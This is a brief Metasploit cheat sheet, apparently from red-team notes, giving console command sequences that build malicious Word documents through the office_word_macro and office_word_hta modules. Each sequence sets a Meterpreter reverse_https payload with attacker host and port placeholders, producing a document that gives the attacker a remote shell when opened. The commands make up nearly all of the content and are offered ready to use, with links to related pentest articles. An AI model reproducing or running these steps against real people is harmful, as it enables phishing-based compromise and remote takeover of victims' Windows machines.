 # Metasploit

TODO: Finish the rest

## 01 - VBA Macro

```
msf > use exploit/windows/fileformat/office_word_macro

msf exploit(windows/fileformat/office_word_macro) > set payload windows/x64/meterpreter/reverse_https

msf exploit(windows/fileformat/office_word_macro) > set customtemplate /path/to/document.docx

msf exploit(windows/fileformat/office_word_macro) > set lhost <IP>

msf exploit(windows/fileformat/office_word_macro) > set lport <PORT>

msf exploit(windows/fileformat/office_word_macro) > run
```

## 02 - VBA Macro with HTA

```
msf > use exploit/windows/fileformat/office_word_hta

msf exploit(windows/fileformat/office_word_hta) > set payload windows/x64/meterpreter/reverse_https

msf exploit(windows/fileformat/office_word_hta) > set lhost <IP>

msf exploit(windows/fileformat/office_word_hta) > set lport <PORT>

msf exploit(windows/fileformat/office_word_hta) > run
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Exploit FileFormat Office Word Macro](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md)

### Hacking Articles

- [Hacking Articles: Multiple Ways to Exploit Windows Systems using Macros](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)

### Network Intelligence

- [Network Intelligence: Getting System Access Using Malicious Word File](https://networkintelligence.ai/getting-system-access-using-malicious-word-file/)
